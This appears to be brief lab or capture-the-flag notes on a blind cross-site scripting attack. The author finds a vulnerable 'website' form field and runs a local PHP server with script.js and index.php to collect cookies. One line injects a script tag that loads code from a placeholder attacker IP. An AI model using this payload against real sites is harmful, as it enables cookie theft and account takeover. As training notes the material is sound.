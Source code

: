 
website field is vulnerable 
createt php server and put script with diffrent path into every field to find the website input field  as vulnerable

used a script.js to an saved it on local machine (same place i started the php server on) 
plus used a index.php to collect multiple coockies 

then started php server and put <script src="http://OUR_IP/script.js"></script> into the website input field and sent it. 


